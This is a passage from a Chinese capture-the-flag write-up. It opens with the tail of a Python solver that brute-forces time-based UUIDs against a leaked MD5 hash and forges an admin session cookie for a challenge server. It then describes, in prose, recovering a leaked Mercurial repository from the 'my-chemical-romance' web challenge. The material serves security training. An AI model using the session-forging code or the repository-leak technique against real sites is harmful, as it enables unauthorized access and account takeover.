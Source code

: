 ```python
    start,end = uuid1[0],uuid2[0]

    i = 1
    while start < end :
        tmp = uuid.UUID(fields=(start+i,uuid1[1],uuid1[2],uuid1[3],uuid1[4],uuid1[5]))
        tmpHash = hashlib.md5(b"admin" + str(tmp).encode()).hexdigest()
        if tmpHash == hash:
            print("目标UUID=",tmp)
            return str(tmp)
            break
        i += 1

def send(url):
     r = requests.get(url)
     uuid1,x = getUUIDAndHash(r.text)
     requests.post(url=url+"/createadmin")
     r1 = requests.get(url)
     uuid2,adminHash = getUUIDAndHash(r1.text)
     targetUUID = crack(uuid1,uuid2,adminHash)
     return targetUUID
     
def main():
    url = "http://47.115.222.18:3500"
    targetUUID = send(url)

    print(requests.get(url=url,cookies={"id" : targetUUID}).text)
if __name__ == "__main__":
    main()
```

#### my-chemical-romance

**题目描述**

When I was... a young boy... I made a "My Chemical Romance" fanpage!

my-chemical-romance.lac.tf

**题目分析**

> 这个题很傻杯，出题人是弄了一个和 git 差不多的版本控制系统让大家恢复过去的版本，太抽象了完全无用。

打开页面是毫无头绪的，无输入点、无上传点，这时候就需要抓包看看：

![](https://i.imgur.com/HqlMW9t.png)

很明显响应头有个奇怪的字段：Source-Control-Management-Type: Mercurial-SCM

谷歌一下：

![](https://i.imgur.com/FXlj51z.png)

好的，这是一个跨平台的分布式版本控制软件，这不免让我们想到 git，而 CTF 中 git 常用于 git 泄露，所以是否有 Mercurial 泄露呢？

答案是有的，所以我们可以从服务器下载文件。这里直接用官方给出的[工具](https://github.com/p0dalirius/mercurial-scm-extract)，随后的操作就是和 git 泄露常见考点一样，恢复之前的 commit 啥的。
